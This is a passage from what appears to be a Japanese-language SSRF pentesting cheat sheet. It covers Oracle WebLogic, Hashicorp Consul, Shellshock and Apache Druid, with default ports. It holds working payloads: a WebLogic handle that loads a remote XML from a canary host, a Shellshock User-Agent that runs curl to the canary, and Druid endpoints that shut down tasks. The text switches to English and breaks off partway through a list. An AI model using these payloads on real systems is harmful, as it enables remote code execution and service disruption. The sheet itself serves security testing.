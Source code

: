 ```http

_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://SSRF_CANARY/poc.xml")
```
# Hashicorp Consul

**一般的にバインドされるポート: 8500, 8501 (SSL)**

[ここ](https://www.kernelpicnic.net/2017/05/29/Pivoting-from-blind-SSRF-to-RCE-with-Hashicorp-Consul.html)にライトアップがあります。

# Shellshock

**一般的にバインドされるポート: 80, 443 (SSL), 8080**

Shellshockを効果的にテストするためには、ペイロードを含むヘッダを追加する必要がある場合があります。以下のCGIパスは試す価値があります。

テストするためのCGIパスの短いリスト:

[パスを含むGist](https://gist.github.com/infosec-au/009fcbdd5bad16bb6ceb36b838d96be4).

**SSRFキャナリー: ユーザーエージェントを介したShellshock**
```bash
User-Agent: () { foo;}; echo Content-Type: text/plain ; echo ;  curl SSRF_CANARY
```
# Apache Druid

**一般的にバインドされるポート: 80、8080、8888、8082**

Apache DruidのAPIリファレンスは[こちら](https://druid.apache.org/docs/latest/operations/api-reference.html)を参照してください。

ステータスコードを表示できる場合、以下のパスが200のステータスコードを返すかどうかを確認してください:
```bash
/status/selfDiscovered/status
/druid/coordinator/v1/leader
/druid/coordinator/v1/metadata/datasources
/druid/indexer/v1/taskStatus
```
シャットダウンタスクは、タスクIDまたはデータソース名を推測する必要があります。
```bash
/druid/indexer/v1/task/{taskId}/shutdown
/druid/indexer/v1/datasources/{dataSource}/shutdownAllTasks
```
# Apache Druid Overlordsのスーパーバイザーをシャットダウンする方法:

To shut down supervisors on Apache Druid Overlords, you can use the following steps:

1. Access the Apache Druid Overlords web interface.

2. Navigate to the "Supervisors" section.
